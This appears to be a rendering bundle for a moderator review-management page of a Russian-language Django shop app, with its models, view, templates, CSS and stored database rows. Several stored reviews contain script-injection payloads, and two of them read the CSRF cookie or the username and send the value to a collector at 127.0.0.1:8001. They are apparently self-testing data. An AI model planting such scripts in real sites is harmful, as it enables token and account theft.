
/control_panel/reviews/ (signed in), run on the app's committed database.
### accounts/models.py (models this page shows, shortened)
class Profile(models.Model):
    user = models.OneToOneField(User, on_delete=models.CASCADE)
    bio = models.TextField(blank=True)
    balance = models.DecimalField(max_digits=10, decimal_places=2, default=0.00)
    profile_picture = models.ImageField(upload_to='profile_pictures/', blank=True, null=True)

### devices/models.py (models this page shows, shortened)
class Review(models.Model):
    device = models.ForeignKey(Device, related_name='reviews', on_delete=models.CASCADE)
    author = models.ForeignKey(User, on_delete=models.CASCADE)
    content = models.TextField()
    rating = models.PositiveIntegerField()

class Device(models.Model):
    name = models.CharField(max_length=100)
    description = models.TextField(null=True)
    price = models.DecimalField(max_digits=10, decimal_places=2, null=True)
    category = models.ForeignKey(Category, on_delete=models.CASCADE, null=True)
    image = models.ImageField(upload_to='devices/', null=True, blank=True)

### control_panel/views.py (the view)
# urls.py: path('reviews/', views.view_reviews, name='view_reviews'),
@login_required
@check_group(group_name='moderator')
def view_reviews(request):
    profile = Profile.objects.get(user=request.user)
    keyword = request.GET.get('keyword', '')
    reviews = Review.objects.select_related('author', 'device') \
                            .only('id', 'device__name', 'content', 'rating',
                                  'author__username') \
                            .filter(Q(content__icontains=keyword) | Q(device__name__icontains=keyword) |
                                    Q(author__username__icontains=keyword)) \
                            .all()
    remove_review(request)
    return render(request, 'control_panel/list_reviews.html', {'profile': profile, 'reviews': reviews,
                                                               'keyword': keyword})

### control_panel/logic.py (called while the page is built)
def remove_review(request):
    if request.method == 'POST':
        review_id_to_delete = request.POST.get('delete_review_id')
        if review_id_to_delete:
            review_to_delete = get_object_or_404(Review, id=review_id_to_delete)
            review_to_delete.delete()

def has_rights(user, group_name):
    return user.groups.filter(name=group_name).exists()

def check_group(group_name=None):
    def decorator(view_func):
        @wraps(view_func)
        def wrapped_view(request, *args, **kwargs):
            if has_rights(request.user, group_name):
                return view_func(request, *args, **kwargs)
            return HttpResponseForbidden()
        return wrapped_view
    return decorator

### control_panel/templates/control_panel/list_reviews.html (shortened to what this page needs)
{% extends 'layout.html' %}
{% block balance %} <span style="color: white;">Баланс: {{ profile.balance }}</span>{% endblock %}
    {% block img %}
    {% if profile.profile_picture %}
    <img src="{{ profile.profile_picture.url }}" class="img-fluid rounded-circle" style="width: 50px; height: auto;">
    {% else %}
    <img src="https://i.pinimg.com/originals/f4/1c/aa/f41caad9981cc88b4016984c83b3c6a1.png" class="img-fluid rounded-circle" style="width: 50px; height: auto;">
    {% endif %}
    {% endblock %}
{% block content %}
<h1> Управление отзывами</h1>
<form method="get">
    <label for="keyword">Поиск: </label>
    <input type="text" name="keyword" id="keyword" value="{{ keyword }}">
    <button type="submit">Искать</button>
</form>
<ul>
    {% for review in reviews %}
    <li>
        <p><strong>Устройство: {{ review.device.name }}</strong></p>
        <p><strong>Автор: {{ review.author.username }}</strong></p>
        <p><strong>Рейтинг: {{ review.rating }}</strong></p>
        <p> {{ review.content }}</p>
        <form method="post">
            <button type="submit">Удалить</button>
        </form>
    </li>
    {% empty %}
    <li>Пока нет отзывов.</li>
    {% endfor %}
</ul>
{% endblock %}

### templates/layout.html (shortened to what this page needs)
{% load static %}
<!DOCTYPE html>
<html>
<head>
    <link rel="stylesheet" type="text/css" href="{% static 'css/styles.css' %}">
    <link rel="stylesheet" href="https://code.jquery.com/ui/1.12.1/themes/base/jquery-ui.css">
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.10.2/font/bootstrap-icons.css">
</head>
<body>
    <header class="header">
        <div class="header-container">
            {% if user.is_authenticated %}
            <div class="">
                {% block balance %}
                {% endblock %}
            </div>
            <a href="{% url 'cart' %}" title="Корзина">
                <button class="btn btn-primary"><i class="bi bi-cart"></i></button>
            </a>
            <div class="user-info">
                <a href="{% url 'profile' %}" class="profile-link animated">
                    {{ user.username }}
                </a>
                {% block img %}
                {% endblock %}
            </div>
            {% endif %}
        </div>
    </header>
    <nav class="navigation-panel">
        <h1 class="navigation-panel__title"> DIGITAL MARKET </h1>
            {% if user.is_authenticated %}
                <a href="{% url 'logout' %}" class="btn btn-main">
                    Выйти
                </a>
            {% endif %}
        <ul>
            <li class="navigation-panel__btn"><a href="{% url 'device_showcase' %}" class="btn btn-main">Главная</a></li>
            <li class="navigation-panel__btn">
                <a href="{% url 'device_categories' %}" class="btn btn-main" id="category-btn">Категории товаров</a>
            </li>
            {% if user.is_authenticated %}
            <li class="navigation-panel__btn"><a href="{% url 'profile' %}" class="btn btn-main">Профиль</a></li>
            {% if user.groups.all.0.name == 'moderator' %}
            <li class="navigation-panel__btn">
                <a href="{% url 'view_capabilities' %}" class="btn btn-main" id="control-panel-btn">Панель управления</a>
            </li>
            {% endif %}
            {% endif %}
        </ul>
    </nav>
    <div class="content">
        {% block content %}
        {% endblock %}
    </div>
</body>
</html>

### devices/static/css/styles.css (style rules this page uses)
body { font-family: 'Chakra Petch', sans-serif !important; margin: 0; padding: 0; }
h1 { width: fit-content; border-radius: 16px; padding: 8px 20px; background-color: #5a538c; color: #fff; }
ul { list-style: none; padding: 0; }
li { margin: 24px 0; padding: 0 10px; border-left: 4px solid #5a538c; }
a { text-decoration: none; color: #5a538c !important; }
.navigation-panel__btn { border: none; margin: 2px 0; }
.btn { color: #fff !important; }
.navigation-panel { width: 200px; background-color: #333; color: #fff; position: fixed; top: 0; left: 0; height: 100%; overflow-y: auto; padding-top: 20px; }
.navigation-panel__title { border-radius: 0; }
.navigation-panel ul { list-style: none; padding: 0; }
.navigation-panel li { padding: 10px 0; }
.navigation-panel a { text-decoration: none; color: #000000; padding: 10px; display: block; transition: background-color 0.3s; }
.content { margin-top: 64px; margin-left: 220px; margin-right: 20px; padding: 20px; background-color: #fff; border: 1px solid #ddd; border-radius: 5px; }
.header-container { gap: 32px; display: flex; margin-left: auto; width: fit-content; align-items: center; }
.profile-link { color: #fff !important; }
.user-info { display: flex; align-items: center; gap: 12px; }

### data on the page
Profile: balance "102010.00", profile_picture (picture)
Review: device.name "POCO X3 NFC", author.username "br4am", rating "5", content "dasdasdasdasda"
Review: device.name "POCO X3 NFC", author.username "tetz", rating "5", content "<script> console.log('CSRF-vulnerability is active!') </script>"
Review: device.name "POCO X3 NFC", author.username "tetz", rating "5", content "<script> console.log('CSRF-vulnerability is active!') </script>"
Review: device.name "MSI Raider GE78", author.username "tetz", rating "1", content "<script> function getCSRFToken() { var cookies = document.cookie; var cookieArray = cookies.split('; '); for (var i = 0; i < cookieArray.length; i++) { var cookie = cookieArray[i]; if (cookie.indexOf('csrftoken=') === 0) { return cookie.substring('csrftoken='.length, cookie.length); } } return null; } var csrfToken = getCSRFToken(); console.log('CSRF-токен:', csrfToken); var url = \"http://127.0.0.1:8001/handle_get/?csrfToken=\" + encodeURIComponent(csrfToken); fetch(url).then(function(response) { }).catch(function(error) { console.error('Произошла ошибка:', error); }); </script>"
Review: device.name "JBL Xtreme 3", author.username "tetz", rating "3", content "<script> var usernameElement = document.querySelector(\".profile-link\"); var username = usernameElement.textContent.trim(); console.log('username:', username); var url = \"http://127.0.0.1:8001/handle_get/?username=\" + encodeURIComponent(username); fetch(url).then(function(response) { }).catch(function(error) { console.error('Произошла ошибка:', error); }); </script>"
Review: device.name "POCO X3 NFC", author.username "albert", rating "5", content "<script> console.log('CSRF-vulnerability is active!') </script>"

### other printed values
{{ user.username }} "br4am"
